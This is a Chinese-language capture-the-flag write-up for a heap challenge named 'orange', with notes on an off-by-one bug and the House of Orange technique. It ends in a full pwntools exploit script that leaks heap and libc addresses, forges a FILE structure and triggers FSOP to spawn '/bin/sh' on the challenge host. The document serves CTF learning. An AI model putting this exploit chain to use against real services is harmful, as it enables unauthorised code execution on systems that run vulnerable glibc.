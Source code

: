 # one orange 

*🍊*

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |
|libc  |2.23-0ubuntu11.3|

## 解题思路

没做出来...看到off by one了，但是脑子里全是House of Einherjar，后来想到利用top_chunk，
但是就是没想到可以再利用一个可控制的堆块来控制top_chunk，明明kasio才刚用过这个技巧  
我还纳闷，只能溢出0xe8字节，但是伪造堆块就得消耗至少0x10个字节，没法写全file结构体啊！

除了off by one，剩下的就是House of Orange了，看看博客就能做

后来看了官方wp，可算看懂了，画了堆块示意图如下：

![heap layout](./assets/orange.png)

收获如下：

1. 在top_chunk被放入unsorted bin时，会产生2个0x10大小的堆块
2. 调试house of orange的时候可以用`watch *(_IO_FILE*)_IO_list_all`来关注FSOP是如何运行的，
毕竟最后一次malloc完成了很多操作，不方便观察
3. 对chunk做如下操作在这个版本是合法的：
  - `p = malloc(0x118)` -> long[35], size: 0x121
  - `p[-1] = 0x101; p[0x100 / 8] = 0x21`
  - `free(p); p[-1] = 0x1f1` now `p` in unsorted bin
  - `np = malloc(0x1e8)` -> long[61], size: 0x1f1; `p == np`

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './orange'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('competition.blue-whale.me', 20790)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6')
    elf = ELF(EXE)

    def addn(idx:int, size:int):
        sh.sendlineafter(b'4.', b'1')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.sendlineafter(b'size', str(size).encode())

    def deln(idx:int) -> int:
        sh.sendlineafter(b'4.', b'2')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.recvuntil(b'delete: ')
        return int(sh.recvline(), 16)

    def edit(idx:int, cont:bytes, overflow:bool=False):
        sh.sendlineafter(b'4.', b'3')
        sh.sendlineafter(b'index', str(idx).encode())
        if overflow:
            sh.sendafter(b'cont', cont)
        else:
            sh.sendlineafter(b'cont', cont)
        
    def show(idx:int) -> bytes:
        sh.sendlineafter(b'4.', b'4')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.recvuntil(b'tent:\n')
        return sh.recvuntil(b'1.')

    addn(1, 0x3d8)
    addn(2, 0x3d8)
    addn(3, 0x3d8) # prepare for page alignment

    # Step 1, construct heap layout
    addn(4, 0x1f8)
    addn(5, 0xe8)

    # Step 2, set size of chunk 4 from 0x201 to 0x2f1
    # overlapping chunk 5
    edit(3, b'0'*0x3d8 + b'\xf1', True)

    # Step 3, free chunk 4 to deceive top_chunk down to chunk 4
    heapBase = deln(4) - 0xbb0
    success(GOLD_TEXT(f'Leak heapBase: {hex(heapBase)}'))

    # Step 4, shrink top_chunk to make top_chunk in control (editable in chunk 5)
    # top_chunk.size -= 0x210
    addn(4, 0x208)

    # Step 5, mod top_chunk size from 0x20251 to 0x251
    edit(5, p64(0) + p64(0x251))

    # Step 6, malloc a chunk larger than 0x251 to sweep old top_chunk into unsorted bin
    # now in chunk 5, fd contains libc
    addn(6, 0x300)
    val = show(5)

    dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
    mainArena = u64(val[0x10:0x16] + b'\0\0') - 0x58 # sub unsorted bin offset
    libcBase = mainArena - dumpArena
    success(GOLD_TEXT(f'leak libcBase: {hex(libcBase)}'))
    ioListAll = libcBase + libc.symbols['_IO_list_all']
    system = libcBase + libc.symbols['system']

    file = FileStructure()
    file.flags = u64(b'/bin/sh\0')
    file._IO_read_ptr = 0x61
    file._IO_read_base = ioListAll - 0x10
    file._IO_write_ptr = 1
    file.vtable = heapBase + 0x10

    # Step 7, force file structure and set old top_chunk size from 0x231 to 0x61
    # in this case, old top_chunk falls in small_bin
    # and force vtable by the way
    edit(5, bytes(file))
    edit(1, p64(0)*3 + p64(system))

    # Step 8, malloc a chunk larger than 0x60 to trigger FSOP
    addn(7, 0x100)

    sh.clean()
    sh.interactive()
```

## 参考文献

[House of Orange](https://www.cnblogs.com/ZIKH26/articles/16712469.html)
